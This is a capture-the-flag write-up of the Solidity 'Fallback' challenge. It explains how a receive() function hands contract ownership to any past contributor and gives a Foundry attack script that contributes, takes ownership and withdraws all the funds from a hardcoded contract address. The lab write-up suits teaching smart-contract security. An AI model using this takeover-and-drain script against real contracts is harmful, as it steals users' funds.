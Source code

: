 # Fallback   
We have a contract where users can make contributions and withdraw their contributions. Our mission is to become the owner of the contract and reduce its balance to 0.   
Upon inspecting the contract, I noticed a `receive`  function that allows us to become the owner:
   
```solidity
receive() external payable {
     require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender; }
```
This function checks that the value sent in the transaction is greater than 0 and that the sender's contributions are also greater than 0.   
To solve this challenge, we need to:   
1. Make a transaction to contribute, ensuring that `contributions[msg.sender]` is greater than 0.   
2. Call the `receive` function to become the owner.   
3. Call the `withdraw` function to drain all the funds.   
   
I wrote a script to automate solving this challenge:   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";

interface test {
    function contribute() external payable;

    function withdraw() external;
}

contract AttackScript is Script {
    address victim;

    constructor() {
        victim = 0x0507575a8Bf69441e5282c82c2e541cf21cE2d9e;
    }

    function run() external {
        vm.startBroadcast();
        test(victim).contribute{value: 0.0001 ether}();
        victim.call{value: 0.00001 ether}("");
        test(victim).withdraw();
        vm.stopBroadcast();
    }
}
```
